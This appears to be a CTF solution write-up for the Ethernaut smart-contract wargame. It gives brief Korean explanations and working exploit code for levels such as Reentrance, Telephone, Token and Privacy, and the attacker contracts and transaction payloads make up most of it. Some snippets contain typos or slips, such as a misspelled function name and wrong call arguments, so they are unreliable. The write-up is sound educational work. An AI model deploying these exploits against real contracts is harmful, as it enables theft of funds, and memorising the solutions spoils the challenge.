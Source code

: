 # ethernaut-solve
https://ethernaut.openzeppelin.com/

### Hello Ethernaut
```
await contract.authenticate(await contract.address())
```

### Fallback
```
await sendTranscation({from:player, to:contract.address, value:1, data:"0xd7bb99ba"}) // call contribute
await sendTranscation({from:player, to:contract.address, value:1}) // fallback and take owner
await sendTranscation({from:player, to:contract.address, data:"0x3ccfd60b"}) // withdraw
```

### Fallout
낮은 버전 solidity에서 constructor 네이밍 실수
```
await sendTranscation({from:player, to:contract.address, data:"0x6fab5ddf"}) // call Fal1out
```

### Coin Flip
inner tx가 원하는 결과를 반환하지않으면 revert
```
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract CoinFlipCaller {
    address public coinFlipAddress = 0x72C860e67CEdfbc8B6Cc2BF9eAf6173be9A758BB;
    uint256 FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;

    function callFlip() public {
        bytes memory data = abi.encodeWithSignature("flip(bool)", true);

        (bool success, bytes memory result) = coinFlipAddress.call(data);
        
        if(!abi.decode(result, (bool)) || !success) revert();
    }
}
```

### Telephone
msg.sender = 현재 함수를 직접 호출한 address

tx.origin = 트랜잭션 최초로 호출한 address
```
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract TakeTelephone {
    address public telephone = 0x209eDa374a2DF5ADA2BDd32797763325865935ce;
    address public newOwner = 0x2C2307bb8824a0AbBf2CC7D76d8e63374D2f8446;

    function changeOwner() public {
        bytes memory data = abi.encodeWithSignature("changeOwner(address)", newOwner);

        (bool success, bytes memory result) = telephone.call(data);
        
        if(!success) revert();
    }
}
```

### Token
underflow를 활용한 토큰 탈취.
0.8부터는 해당 취약점은 개선됨.
```
const toAddress = '0xdead';
const toAddressPadded = '0'.repeat(24) + toAddress.slice(2).padStart(40, '0');

const value = 21;
const valuePadded = value.toString(16).padStart(64, '0');

const data = "0xa9059cbb" + toAddressPadded + valuePadded;
await sendTransaction({from:player, to:contract.address, data});
```

### Delegation
delegatecall은 현재 컨트랙트의 상태와 delegatedContract의 로직을 사용함.
```
const functionSignature = 'pwn()';
const functionSignatureHash = _ethers.utils.keccak256(_ethers.utils.toUtf8Bytes(functionSignature));
const functionSelector = functionSignatureHash.slice(0, 10);
await sendTransaction({from:player, to:contract.address, functionSignature});
```

### Force
selfdestruct를 이용하면 payable이 없는 CA도 eth를 강제 송금할 수 있음.

cacun 부터는 selfdestruct를 사용하더라도 CA owner에게 eth가 송금됨.

0.8.18부터는 selfdestruct가 deprecated됨. [EIP-6049](https://eips.ethereum.org/EIPS/eip-6049)
```
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract TakeMyMoney{
    address public force = 0xe21D5CA1330133C3Fb78886Ad0a58aFf85ed3771;
    
    receive() external payable {
        selfdestruct(payable(force));
    }
}
```

### Vault
solidity에서 private된 변수이더라도 슬롯을 확인하면 해당 값을 확인할 수 있음.
```
web3.eth.getStorageAt("0x0d0938d123467f4eA72bfd008683EeEAf092Fa5E", 2); // "412076657279207374726f6e67207365637265742070617373776f7264203a29"
await sendTransaction({from:player, to:contract.address, data: "0xec9b5b3a"+"412076657279207374726f6e67207365637265742070617373776f7264203a29"})
```

### King
단순히 송금만한다면 제출 시, 다시 king의 권한을 탈취당함. king이 권한을 탈취하려할 때 tx가 성공하지못하도록 함.
```
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract IDontNeedMoney{
    address public king = 0xd91E4c9677AC67474a069E4A623e5382d1a6e4c6;
    
    function sendEth() public payable{
        (bool success, ) = king.call{value: msg.value}("");
        require(success, "Failed to send Ether");
    }

    receive() external payable {revert();}
    fallback() external payable {revert();}
}

await sendTransaction({from:player, to:"0x7Ae7F3c83AA535A448dC7B9C699970B5eECe18dc", data:"0x06e99fef", value:toWei("0.001000001")})
```

### Reentrance
재진입을 시도할 때는, tx가 사용할 수 있는 gas 한도를 설정해주는게 중요함. 
```
const toAddress = "0x85299fFfa575FfA9cAe9B186c812C905D98A49a1"
const toAddressPadded = '0'.repeat(24) + toAddress.slice(2).padStart(40, '0');

const functionSignature = 'donate(address)';
const functionSignatureHash = _ethers.utils.keccak256(_ethers.utils.toUtf8Bytes(functionSignature));
const functionSelector = functionSignatureHash.slice(0, 10);

await sendTransaction({from:player, to:contract.address, data:functionSelector+toAddressPadded, value:toWei("0.001")})
```

```
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.12;

contract DoubleSpend {
    address public owner;
    address public target = 0x0d1B128F01A560FfB16b04548f0182C298AA52DB;
    uint256 amount = 0.001 ether;

    constructor() public{
        owner = msg.sender;
    }
    
    function callWithdraw() public {
        (bool success, ) = target.call{gas: 500000}(abi.encodeWithSignature("withdraw(uint256)", amount));
        require(success, "Withdraw call failed");
    }

    // Function to receive Ether
    receive() external payable {
        if (address(target).balance >= amount) {
            callWithdraw();
        }
    }

    function withdraw() public{
        require(owner == msg.sender, "not owner");
        selfdestruct(payable(owner));
    }
}

```

### Elevator
```
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

interface Building {
    function isLastFloor(uint256) external returns (bool);
}

contract Claimer is Building{
    bool isEntered = false;
    address public elevator = 0x592d6c1CD0C06a45135A59a33Cfd817d53c1A373;

    function callGoTo() public{
        (bool success,) = elevator.call(abi.encodeWithSignature("goTo(uint256)", 0));
    }
    function isLastFloor(uint256) external override  returns (bool){
        if(!isEntered){
            isEntered = true;
            return false;
        }
        return true;
    }
}
```

### Privacy
slot 구성에 대해서 배울 수 있는 문제
https://docs.soliditylang.org/en/v0.8.26/internals/layout_in_storage.html

```
//slot 구성
bool public locked = true; // 0th (32byte)
uint256 public ID = block.timestamp; // 1st (32byte)
uint8 private flattening = 10; // 2nd (1byte)
uint8 private denomination = 255; // 2nd (1byte)
uint16 private awkwardness = uint16(block.timestamp); // 2nd (2byte)
bytes32[3] private data; // data[0] = 3rd // data[1] = 4th // data[2] = 5th
```

```
const functionSignature = web3.eth.abi.encodeFunctionSignature("unlock(bytes16)")
const key = await web3.eth.getStorageAt(contract.address,5) 
const parameter = web3.eth.abi.encodeParameter('bytes16',key) // bytes는 32byte padding을 할 때, padEnd를 사용함.
await sendTransaction({from:player, to:contract.address, data:functionSignature+parameter.slice(2)})
```
